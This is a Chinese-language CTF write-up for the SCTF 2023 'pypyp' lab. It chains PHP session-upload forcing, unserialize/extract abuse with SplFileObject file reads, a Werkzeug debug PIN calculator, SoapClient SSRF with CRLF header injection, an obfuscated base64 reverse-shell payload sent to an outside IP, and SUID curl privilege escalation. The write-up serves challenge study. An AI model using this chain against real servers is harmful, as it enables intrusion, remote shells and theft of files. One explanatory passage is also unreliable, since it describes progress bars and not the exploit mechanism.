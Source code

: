 ### **pypyp**

docker环境搭建

docker pull lxxxin/sctf2023_pypyp
docker run -it -d -p 12345:80 -e FLAG=flag{8382843b-d3e8-72fc-6625-ba5269953b23} lxxxin/sctf2023_pypyp

PHP_SESSION_UPLOAD_PROGRESS 强制session start

```
import requests
url = "环境地址"
data = {
    "PHP_SESSION_UPLOAD_PROGRESS":"a"
}
file = {
    "file": ("a","a")
}
cookies = {
    "PHPSESSID": "a"
}
proxies = {
    "http": "127.0.0.1:8081" 
}
req = requests.post(url, data=data, files=file, cookies=cookies, proxies=proxies)
print(req.text)
```

利用`SESSION_UPLOAD_PROGRESS`创建一个 session 的原理如下：

1. 当发起一个文件上传请求时，PHP 会自动创建一个名为 `SESSION_UPLOAD_PROGRESS` 的 session 变量。
2. 此时，`SESSION_UPLOAD_PROGRESS` 变量存储了当前文件上传的状态信息，包括文件大小、上传进度等。
3. PHP 会定期地将 `SESSION_UPLOAD_PROGRESS` 变量的值更新到服务器的 session 存储中。
4. 在上传过程中，可以通过读取 `SESSION_UPLOAD_PROGRESS` 变量的值来获取上传的进度信息，例如文件大小、已上传字节数等。
5. 利用这个进度信息，我们可以在前端页面上显示一个进度条或者其他形式的上传进度提示。

总结来说，`SESSION_UPLOAD_PROGRESS` 是 PHP 提供的一个机制，用于跟踪文件上传的进度。它通过 session 变量存储上传状态信息，并在上传过程中不断更新。通过读取这个变量的值，可以获取上传的进度信息，从而实现上传进度的展示和处理。

拿到的源码：

```
<?php
    error_reporting(0);
    if(!isset($_SESSION)){
        die('Session not started');
    }
    highlight_file(__FILE__);
    $type = $_SESSION['type'];
    $properties = $_SESSION['properties'];
    echo urlencode($_POST['data']);
    extract(unserialize($_POST['data']));
    if(is_string($properties)&&unserialize(urldecode($properties))){
        $object = unserialize(urldecode($properties));
        $object -> sctf();
    exit();
    } else if(is_array($properties)){
        $object = new $type($properties[0],$properties[1]);
    } else {
        $object = file_get_contents('http://127.0.0.1:5000/'.$properties);
    }
    echo "this is the object: $object <br>";

?>
```

SplFileObject类读取文件：

这里读文件的题目代码为：

```
extract(unserialize($_POST['data']));
if(is_array($properties)){
        $object = new $type($properties[0],$properties[1]);
    }
```

通过将data反序列化后，通过extract函数给数组的键值赋为变量，然后通过new $type($properties[0],$properties[1]); 这一部分利用了SplFileObject类

```
<?php
$data["type"] = "SplFileObject";
$data["properties"][0] = "php://filter/read=convert.base64-encode/resource=/proc/sys/kernel/random/boot_id";
$data["properties"][1] = "r";
echo serialize($data);
```

计算PIN需要以下几个参数：

- 运行Flask程序的用户名（可以在/etc/passwd中找到）
- flask的包路径（其值类似于/usr/local/lib/python3.8/site-packages/flask/app.py）
- /sys/class/net/eth0/address
- /proc/sys/kernel/random/boot_id
- /proc/self/cgroup

我读取到的：

a31935e7-2f8b-4b65-b824-de6222c9c470     （boot_id）

02:42:ac:11:00:07         (/sys/class/net/eth0/address)

a5001b18a8bfee1ff69a555688cc1a271d35f17fffe88e690f321f68e20b395b      (/sys/class/net/eth0/address)

app.py的源码：

```
from flask import Flask

app = Flask(__name__)

@app.route('/')
def index():
    return 'Hello World!'

if __name__ == '__main__':
    app.run(host="0.0.0.0",debug=True)
```

SoapClient类对于SSRF的利用：

```
<?php
$data = "name=admin";
$lendata = strlen($data);
$ua = "host\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: $lendata\r\n\r\n$data";
$client = new SoapClient(null,array('uri' => 'host' , 'location' => 'http://127.0.0.1:9999/test' , 'user_agent' => $ua));
$client->getFlag();
```

flask计算pin的脚本：

```
import hashlib
from itertools import chain
import time
probably_public_bits = [
    'app'# /etc/passwd
    'flask.app',# 默认值
    'Flask',# 默认值
    '/usr/local/lib/python3.9/dist-packages/flask/app.py' # 报错得到
]

private_bits = [
    str(int('02:42:ac:11:00:07'.replace(":", ""), 16)), # /sys/class/net/eth0/address
    'a31935e7-2f8b-4b65-b824-de6222c9c470' + # /proc/sys/kernel/random/boot_id
    'a5001b18a8bfee1ff69a555688cc1a271d35f17fffe88e690f321f68e20b395b' # /proc/self/cgroup
]

h = hashlib.sha1() # 有些版本是md5，Python3大部分版本是sha1
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print("pin为: " + rv)
cookie = str(int(time.time())) + "|" + hashlib.sha1(f"{rv} added salt".encode("utf-8", "replace")).hexdigest()[:12]
print(f"cookie为: {cookie_name}={cookie}")

```

console的获取：

题目对应代码为：

```
extract(unserialize($_POST['data']));
$object = file_get_contents('http://127.0.0.1:5000/'.$properties);
```



```
<?php
$data["properties"] = "console";
echo serialize($data);
//a:1:{s:10:"properties";s:7:"console";}
```

我的SECRET：

yqZt4PZtLEjq9y4mt1Lz

然后RCE:

这里需要开启 SOAP 扩展

extension=soap

```
<?php
$data = "name=admin";
$lendata = strlen($data);
$cookie = "__wzd1cebf2989b4eebb2a577=1687509747|5b1000f3f6c5";
$cmd = 'echo${IFS}TDJKcGJpOWlZWE5vSUMxcElENG1JQzlrWlhZdmRHTndMekV1TVM0eExqRXZNems1T1RrZ01ENG1NUT09|base64${IFS}-d|base64${IFS}-d|bash';
$s = "Y8jRuFsyHCoJ64lgXpk0";
$ua = "chen\r\nCookie: $cookie\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: $lendata\r\n\r\n$data";
$uri = 'http://127.0.0.1:5000/console?&__debugger__=yes&cmd=__import__("os").system("""$cmd""")&frm=0&s=$s';
$uri = str_replace('$s', "$s", $uri);
$uri = str_replace('$cmd', "$cmd", $uri);
$client = new SoapClient(null,array('uri' => 'chen' , 'location' => $uri, 'user_agent' => $ua));
$serdata["properties"] = urlencode(serialize($client));
echo serialize($serdata);
```

然后可以反弹shell，通过 find / -perm -u=s -type f 2>/dev/null     查找有权限的命令curl进行提权，然后查看flag

curl file:///flag